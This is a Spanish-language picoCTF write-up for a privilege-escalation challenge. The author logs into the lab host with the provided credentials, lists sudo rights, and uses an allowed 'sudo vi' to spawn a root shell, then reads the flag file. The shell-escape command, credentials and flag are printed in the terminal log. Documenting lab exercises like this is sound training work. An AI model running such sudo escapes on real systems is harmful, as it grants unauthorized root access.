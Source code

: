 ## Descripción
Can you read files in the root file?

The system admin has provisioned an account for you on the main server:`ssh -p 62144 picoplayer@saturn.picoctf.net`Password: `j4ks-9nxB-`Can you login and read the root file?
## Solución
tuve que ver un video de como solucionarlo, en el cual muestra que agregando el argumento -l a sudo puedes ver los comandos que tienes permitidos con super usuario.
El único comando permitido fue vi, y buscándolo en gtfobins.io pude ver los usos del comando para abrir una terminal que ignora todos los permisos y así poder acceder al directorio challenge/
```
picoplayer@challenge:/$ ls -al
total 0
drwxr-xr-x   1 root   root     51 Sep 15 01:40 .
drwxr-xr-x   1 root   root     51 Sep 15 01:40 ..
-rwxr-xr-x   1 root   root      0 Sep 15 01:40 .dockerenv
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot
d---------   1 root   root     27 Aug  4  2023 challenge
drwxr-xr-x   5 root   root    340 Sep 15 01:40 dev
drwxr-xr-x   1 root   root     66 Sep 15 01:40 etc
drwxr-xr-x   1 root   root     24 Aug  4  2023 home
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x   2 root   root      6 Mar  8  2023 media
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 189 nobody nogroup   0 Sep 15 01:40 proc
drwx------   1 root   root     23 Aug  4  2023 root
drwxr-xr-x   1 root   root     54 Sep 15 01:40 run
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x  13 nobody nogroup   0 Sep 15 01:40 sys
drwxrwxrwt   1 root   root      6 Aug  4  2023 tmp
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr
drwxr-xr-x   1 root   root     17 Mar  8  2023 var
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi

picoplayer@challenge:/$ sudo vi -c ':!/bin/sh' /dev/null

# ls -al
total 0
drwxr-xr-x   1 root   root     51 Sep 15 01:40 .
drwxr-xr-x   1 root   root     51 Sep 15 01:40 ..
-rwxr-xr-x   1 root   root      0 Sep 15 01:40 .dockerenv
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot
d---------   1 root   root     27 Aug  4  2023 challenge
drwxr-xr-x   5 root   root    340 Sep 15 01:40 dev
drwxr-xr-x   1 root   root     66 Sep 15 01:40 etc
drwxr-xr-x   1 root   root     24 Aug  4  2023 home
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x   2 root   root      6 Mar  8  2023 media
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 196 nobody nogroup   0 Sep 15 01:40 proc
drwx------   1 root   root     23 Aug  4  2023 root
drwxr-xr-x   1 root   root     66 Sep 15 01:41 run
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x  13 nobody nogroup   0 Sep 15 01:40 sys
drwxrwxrwt   1 root   root      6 Aug  4  2023 tmp
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr
drwxr-xr-x   1 root   root     17 Mar  8  2023 var
# cd challenge
# ls -al
total 4
d--------- 1 root root 27 Aug  4  2023 .
drwxr-xr-x 1 root root 51 Sep 15 01:40 ..
---------- 1 root root 98 Aug  4  2023 metadata.json
# cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_021d10ab}", "username": "picoplayer", "password": "j4ks-9nxB-"}# Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.

```

## Notas
[sudo -l] - list user's privileges or check a specific command; use twice for longer format
[sudo vi -c ':!/bin/sh' /dev/null] - It can be used to break out from restricted environments by spawning an interactive system shell. If the binary is allowed to run as superuser by `sudo`, it  does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
## Referencias
https://gtfobins.github.io/gtfobins/vi/
https://www.youtube.com/watch?v=ZCM8pLNE2TE&ab_channel=COZT
